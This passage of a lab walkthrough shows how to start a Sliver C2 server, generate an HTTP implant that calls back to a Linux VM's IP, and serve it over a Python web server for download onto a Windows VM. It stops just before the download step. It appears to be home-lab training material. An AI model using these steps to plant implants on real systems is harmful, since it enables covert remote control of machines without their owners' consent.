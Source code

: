 2. **Launching the Sliver Server**:
    - Start the Sliver server:
      ```sh
      sliver-server
      ```

3. **Generating the C2 Payload**:
<img src="attachment/214cea238e0894cedf14ffe44522c1fe.png" />
- Generate a C2 payload using the Linux VM’s static IP address and save it in the Sliver directory:

```
  generate --http [Linux_VM_IP] --save /opt/sliver
```

- Note the randomized output file name for future reference.
- Confirm the new implant configuration:
 
```
implants
```
  
<img src="attachment/77be1ea4bc571269172e25d6989610a4.png" />
4. **Transferring the Payload to the Windows VM**:
- Exit the Sliver server:

```
exit
```

- Start a temporary Python web server to facilitate the transfer:

```
cd /opt/sliver
python3 -m http.server 80
```

<img src="attachment/eeee90c069f876245985424589a90dbe.png" />

- On the Windows VM, open an Administrative PowerShell console and download the payload:
